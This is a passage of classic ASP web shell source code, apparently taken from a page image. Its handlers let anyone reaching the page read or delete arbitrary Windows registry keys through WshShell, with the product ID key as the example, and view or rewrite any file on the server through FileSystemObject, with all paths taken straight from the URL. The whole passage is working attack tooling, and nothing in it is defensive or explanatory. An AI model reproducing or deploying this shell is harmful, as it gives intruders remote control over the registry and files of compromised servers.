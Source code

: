             Case "r"
                If Trim(Request.QueryString("process")) = "yes" Then
                    Response.Write "&lt;font face=""arial"" size=""2""&gt;" & Trim(Request.QueryString("key")) & "&lt;br&gt;"
                    Response.Write "Value: &lt;b&gt;" & WshShell.RegRead (Trim(Request.QueryString("key")))
                Else
                    Response.Write "&lt;FORM action=""" & Request.ServerVariables("URL") & """ method=""GET""&gt;"
                    Response.Write "&lt;font face=""arial"" size=""1""&gt;KEY: &lt;input type=""text"" name=""key""&gt; &lt;br&gt;( ex.: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ProductId )&lt;br&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""regaction"" value=""r""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""action"" value=""reg""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""process"" value=""yes""&gt;"
                    Response.Write "&lt;input type=""submit"" value=""OK""&gt;&lt;/form&gt;"
                End If
                Response.Write "&lt;br&gt;&lt;br&gt;&lt;font face=""arial"" size=""1""&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg""&gt;Main Menu&lt;/a&gt;&lt;br&gt;"
            Case "d"
                If Trim(Request.QueryString("process")) = "yes" Then
                    teste = WshShell.RegDelete (Trim(Request.QueryString("key")))
                    Response.Write "Chave &lt;b&gt;" & Trim(Request.QueryString("key")) & " &lt;/b&gt;Deleted."
                Else
                    Response.Write "&lt;FORM action=""" & Request.ServerVariables("URL") & """ method=""GET""&gt;"
                    Response.Write "&lt;font face=""arial"" size=""1""&gt;KEY: &lt;input type=""text"" name=""key""&gt; ( ex.: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ProductId )&lt;br&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""regaction"" value=""d""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""action"" value=""reg""&gt;"
                    Response.Write "&lt;input type=""hidden"" name=""process"" value=""yes""&gt;"
                    Response.Write "&lt;input type=""submit"" value=""OK""&gt;&lt;/form&gt;"
                End If
                Response.Write "&lt;br&gt;&lt;br&gt;&lt;font face=""arial"" size=""1""&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg""&gt;Main Menu&lt;/a&gt;&lt;br&gt;"
            Case Else
                Response.Write "&lt;font face=""arial"" size=""1""&gt;&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg&regaction=w""&gt;WRITE VALUE&lt;/a&gt;&lt;br&gt;&lt;br&gt;"
                Response.Write "&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg&regaction=r""&gt;READ VALUE&lt;/a&gt;&lt;br&gt;&lt;br&gt;"
                Response.Write "&lt;a href=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=reg&regaction=d""&gt;DELETE KEY&lt;/a&gt;&lt;br&gt;"
        End Select
        Set WshShell = Nothing
    Case "txtview"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp & "&lt;font face=""arial"" size=""2""&gt;"
        file = Replace(Trim(Request.QueryString("file")),"|","\")
        Set fso = CreateObject("Scripting.FileSystemObject")  
        Set a = fso.OpenTextFile(file)
        Response.Write Replace(Replace(Server.HTMLEncode(a.ReadAll),VbCrLf,"&lt;br&gt;")," ","&nbsp;")
        Set a = Nothing
        Set fso = Nothing
    Case "txtedit"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        If Request.Form.Count = 0 Then
            file = Replace(Trim(Request.QueryString("file")),"|","\")
            Set fso = CreateObject("Scripting.FileSystemObject")
            Set a = fso.OpenTextFile(file)
            Response.Write "&lt;form method=""post"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=txtedit""&gt;"
            Response.Write "&lt;textarea cols='85' rows='25' name=""content"" wrap=""physical"" &gt;" & Server.HTMLEncode(a.ReadAll) & "&lt;/textarea&gt;&lt;br&gt;"
            Response.Write "&lt;input type=""hidden"" name=""path"" value=""" & Trim(Request.QueryString("file")) & """&gt;"